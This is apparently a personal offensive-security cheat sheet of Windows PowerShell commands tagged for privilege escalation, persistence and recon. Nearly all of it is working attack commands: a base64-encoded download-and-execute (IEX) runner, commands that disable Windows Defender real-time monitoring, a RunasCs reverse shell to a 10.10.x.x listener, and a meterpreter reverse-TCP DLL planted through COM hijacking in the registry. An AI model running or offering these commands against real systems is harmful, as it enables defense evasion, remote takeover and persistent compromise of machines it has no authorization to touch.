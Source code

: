 ## powershell set proxy
```powershell
[system.net.webrequest]::DefaultWebProxy = new-object System.Net.WebProxy("http://<proxaddress|$proxyAddr>")
```

## powershell - generate base64 encoded payload download runner
#plateform/linux #target/local #cat/PRIVESC #cat/PERSIST #cat/RECON #tag/powershell 
```powershell
pwsh -Command '$text = "(New-Object System.Net.WebClient).DownloadString(''http://<lhost>/<file>'') | IEX";$bytes = [System.Text.Encoding]::Unicode.GetBytes($text);$EncodedText = [Convert]::ToBase64String($bytes);$EncodedText'
```

## powershell - disable Real Time Monitoring (Windows Defender)
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

## powershell - base64 encode & decode
```
[Convert]::ToBase64String((Get-Content -path "<host>" -Encoding byte))
```

## powershell - disable AV
```
Set-MpPreference -DisableRealtimeMonitoring $true  
```

## powershell - get password policy
```
net accounts
```
## RunAsCs - runas user
```
# run as <USER>, useful if the user is not in the REMOTE GROUP
# upload RunasCs
.\RunasCs.exe <USER> <PASSWORD>  powershell.exe -r 10.10.14.84:6666
.\RunasCS.exe /user:<DOMAIN>\<USER> <PASS>  powershell.exe (-r 10.10.16.48:6666)
```

## powershell - find hijackable COM object
```
# find hijackable COM objects
reg query HKCR\CLSID /s /f "FOO"

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.47 LPORT=4444 -f dll -o hack.dll
reg add "HKLM\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\..." /ve /d "C:\tmp\hack.dll" /f
# Windows applications often call COM components through the CLSID (Class ID), and the system loads the corresponding DLL or EXE according to the configuration in the registry. An attacker could: tamper with the registry key of an existing COM component to point to a malicious DLL. 
```
